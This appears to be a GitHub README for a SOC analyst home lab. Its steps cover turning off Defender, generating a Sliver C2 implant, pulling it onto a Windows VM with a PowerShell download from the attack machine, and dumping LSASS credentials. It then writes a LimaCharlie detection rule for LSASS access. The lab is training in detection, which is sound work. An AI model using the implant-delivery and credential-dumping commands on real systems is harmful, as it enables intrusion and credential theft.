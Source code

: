 # SOC Analyst EDR Lab

## Objective

The Detection Lab project aimed to establish a controlled environment for simulating and detecting cyber attacks. The primary focus was to ingest and analyze the use of an EDR, generating test telemetry to mimic real-world attack scenarios. This hands-on experience was designed to deepen understanding of network security, attack patterns, and defensive strategies. 

### Skills Learned
<!--- [Bullet Points - Remove this afterwards] --->

- Detection of remote connections and creating alerts for detection.
- Proficiency in analyzing and interpreting system irregularities.
- Ability to generate and recognize attack signatures and patterns.
- Enhanced knowledge of network protocols and security vulnerabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.
- Blocking an attack.
- Tuning detections to block out false positives.

### Tools Used
<!--- [Bullet Points - Remove this afterwards] --->

- EDR system (LimaCharlie) for detection and analysis of the endpoint.
- System analysis tools like sysmon to track irregularities on endpoints.
- Telemetry generation tools to create realistic network traffic and attack scenarios.

## Setup

This is a lab from a blog post. You can follow along with it [here](https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro). The steps in this are just a summarization of the parts.

###Part 1 - Setup a small vitrualization environment (2 small VMs)

1. Download and install VMware Workstation Pro.
2. Download and deploy a free Windows VM directly from Microsoft.
3. Download and install Ubuntu into a new VM and make sure to set a static IP on the same subnet as the Microsoft OS.
4. Set a memorable username/password (this is just a lab).
5. Install OpenSSH server on Ubuntu.
6. Continue on the Ubuntu Server install till complete. 
7. Restart Ubuntu.
8. Ping google.
``` ping -c 2 google.com ```
9. Make sure you get a similar output to below.
![image](https://github.com/user-attachments/assets/5a7b2374-4f5d-401a-bc60-a310cb825c03)
10. Next is turning on the Windows VM and disabling Defender on it.
11. Removing Tamper Protection is our first step and there are other options on the same area as them that should also be turned off. The following steps ensure that it does not turn itself back on. Setting the registry options to 4 in this part disables that tool and it will disable the main parts of Defender to stop it from starting up upon any further boots.
12. From an administrative command prompt, to prevent the VM from going into sleep/standby mode during our shenanigans.
```
powercfg /change standby-timeout-ac 0
powercfg /change standby-timeout-dc 0
powercfg /change monitor-timeout-ac 0
powercfg /change monitor-timeout-dc 0
powercfg /change hibernate-timeout-ac 0
powercfg /change hibernate-timeout-dc 0
```
These commands just change power configuration to never get triggered for a system event to turn off the computer.
13. Install Sysmon for getting granular telemetry on the Windows endpoint.
14. Install LimaCharlie and make a sensor for your endpoint on the site then install that sensor to point out to the EDR so events will be recorded.
15. After we are done with the Windows machine then move to Ubuntu to setup the attack machine. SSH from a command prompt on your computer so you can copy and paste the commands easier or just type them into your VM.
16. Now to install Sliver Linux server on the attacking machine.
```
# Download Sliver Linux server binary
wget https://github.com/BishopFox/sliver/releases/download/v1.5.42/sliver-server_linux -O /usr/local/bin/sliver-server
# Make it executable
chmod +x /usr/local/bin/sliver-server
# install mingw-w64 for additional capabilities
apt install -y mingw-w64
```
17. Then make a directory to store information for later.
```
# Create our future working directory
mkdir -p /opt/sliver
```

### Part 2 - Generate our C2 payload
1. Get into root and change directory to opt/sliver/ to run sliver server for this part the lauch Sliver server
2. Generating a C2 session use the following command
   ``` generate --http [Linux_VM_IP] --save /opt/sliver ```
3. Once you've gotten it created it should show "Implate saved to [file path]/[filename].exe"
4. You can check to be sure by running the command
   ``` implants ```
![image](https://github.com/user-attachments/assets/256e52ff-5296-4e85-9f78-54cc0f5f753e)
5. In order to download the C2 you'll need to start a python temp web server with
   ``` python3 -m http.server 80 ```
6. Now you can pull the file with a admin powershell using command
   ``` IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe ```
7. Now that will pull it to your victim and make the file usable
8. In order to start up your connection will need to start up sliver server and then run http listener. Then on the victim machine you'll need to run the file with a admin cmd.
   ``` C:\Users\User\Downloads\[c2_implant].exe ```
9. Once that is running you can go back to the Ubuntu ssh. Run the command
    ``` http ```
   ![image](https://github.com/user-attachments/assets/c911a3a4-dfdc-4eb0-9c42-37a6eb17fc1f)
10. Then you can confirm your session to be able to get a remote connection by listing using
    ```sessions``` then use the session ID and then the command ```use [session ID number]```
11. Now you can get infromation about your session with ```info``` you can use this to run commands in the background as long as the connection is working as it should. You can see what things you can do with the ```getprivs``` command
![image](https://github.com/user-attachments/assets/b840c60f-5ad0-424e-995d-b62c6b7ba95a)
![image](https://github.com/user-attachments/assets/68c21d40-51d3-4261-9e9d-6143c4f578ac)
12. Now we can see connections on the pc if we use netstat and the green one will be your sliver connection
  ![image](https://github.com/user-attachments/assets/ea128754-5738-4e5d-bd10-762cfda304db)
13. Running ps -T will show you the running processes and the red hightlighted ones are a defensive measure while the green hightlight one is the sliver process

![image](https://github.com/user-attachments/assets/eb0c4d2e-db82-4f75-96ae-1ab1dc816d0b)
![image](https://github.com/user-attachments/assets/0cc86ee2-8836-49a2-b202-84fe532107c6)

15. Since we're using and EDR we want to be familiar with the processes that run, but this is my first lab and noticing after the installation of the EDR (LimaCharlie) we can identitfy network connections that are active. Through LimaCharlie go to your sensors and click the processes under the lab sensor that is installed. You can search by process name or just scroll through and see active connections with a wave next to the process.
![image](https://github.com/user-attachments/assets/67ec523c-464b-45cb-b2f3-766c26d4c65f)

16. If you click the veritcal dots and go to view network connection you'll find where the connection leads to.
![image](https://github.com/user-attachments/assets/65b873b5-c32d-45bf-8cbe-a87ecce4cc13)

17. Explore other parts of the LimaCharlie interface to find network connections and the file system.
18. You can find the hash of the file and even search in virus total to see if its known.
![image](https://github.com/user-attachments/assets/ff058b34-3483-4756-95c3-4590af8ace7f)
This file is unique since we created it and because of that its never been seen before but since we're analysts we need to trust ourselves that if something seems suspicious it should be investigated further if something doesn't seem right.
19. Inspecting timeline can show us signed processes and unsigned which might be of importance to us seeing as we're suspecting some malicious activity, but could be useful in real world scenarios to identify malicious activity.

### Part 3 - Let's Get Adversarial
1. Now that we've explored new avenues that we've created and how to detect the malicious activity we want to see about doing something all attackers want and thats get CREDENTIALS. Run the command ``` procdump -n lsass.exe -s lsass.dmp ```
2. In another lab I'll look into processing this lsass dump but for now its just an excercise to see how to get it from sliver server.

3. Now we are going back to LimaCharlie to find a SENSITIVE_PROCESS_ACCESS event that will alert us of something that is likely to be out of the ordinary.
![image](https://github.com/user-attachments/assets/b697416b-2eb9-489e-a746-c7ca22388f7c)

4. Now that we found this type of activity and understand it to be malicious we need to detect anytime this happens and setup a D&R rule. Use the following button to make a D&R rule.
![image](https://github.com/user-attachments/assets/d425bb70-22d9-402a-b8a6-1bdda41e8e1d)
5. When making the rule for this lab we can use.
```
event: SENSITIVE_PROCESS_ACCESS
op: ends with
path: event/*/TARGET/FILE_PATH
value: lsass.exe
```
The lab is not for a real world scenario because the lab admits that this rule would be noisy and not very useful without some tuning.
6. Then we tell it what to name it with in the following in the response box.
```
- action: report
  name: LSASS access
```
7. Once you've created this run the rule against the event at the bottom of the page to determine if it will work. Then save it with a name that will help with showing detections easier in the detection section.
8. Run procdump again and check detections for a new event.




*Ref 1: Network Diagram*
